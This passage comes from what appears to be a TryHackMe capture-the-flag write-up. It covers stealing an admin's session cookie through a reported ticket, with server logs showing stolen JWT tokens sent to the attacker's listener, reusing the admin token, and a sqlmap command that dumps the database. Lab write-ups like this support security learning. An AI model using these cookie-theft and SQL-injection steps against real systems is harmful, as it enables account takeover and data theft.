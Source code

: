 We need to set up the python server:

```
python3 -m http.server
```

If we send the request, it gives us our own cookie, this does not helps us with anything, but remember the `report listing to admin stuff`, if we report the ticket with the cookie stealer, we can see this in our python server

```
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.6.34.159 - - [31/Mar/2025 21:20:35] "GET /?cookie=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjYsInVzZXJuYW1lIjoidGVzdDEiLCJhZG1pbiI6ZmFsc2UsImlhdCI6MTc0MzQ1NTk4M30.58_BVPxAkFoIjQDdGV-SGvFtAe3Yvi98NACqx5Qg-Jw HTTP/1.1" 200 -
10.10.239.175 - - [31/Mar/2025 21:20:40] "GET /?cookie=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3NDM0NTYwMzl9.XxMci203JEpwiMq88Skqx40-2HDRa7ao8znkRjRjj4Q HTTP/1.1" 200 -
```


The last one is the admin cookie, we know this by decoding the `JWT Token`:

![](Pasted%20image%2020250331162253.png)

Let's use the cookie and visualize the admin page:

![](Pasted%20image%2020250331162423.png)

We got our first flag:

```
THM{c37a63895910e478f28669b048c348d5}
```

We notice that we can list users, if we go to any user, we can see this:

 
![](Pasted%20image%2020250331163239.png)

The url seems odd, we can test stuff like `LFI` or `SQLI` payload:

![](Pasted%20image%2020250331163332.png)

We got it, this page may be vulnerable to SQLI, let's use sqlmap:

```bash
sqlmap -u "http://10.10.239.175/admin?user=2" --cookie='token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3NDM0NTYwMzl9.XxMci203JEpwiMq88Skqx40-2HDRa7ao8znkRjRjj4Q' --technique=U --delay=2 -dump
```


We get the following:

![](Pasted%20image%2020250331164347.png)

I tried cracking these hashes but no luck, we can also find this other table:
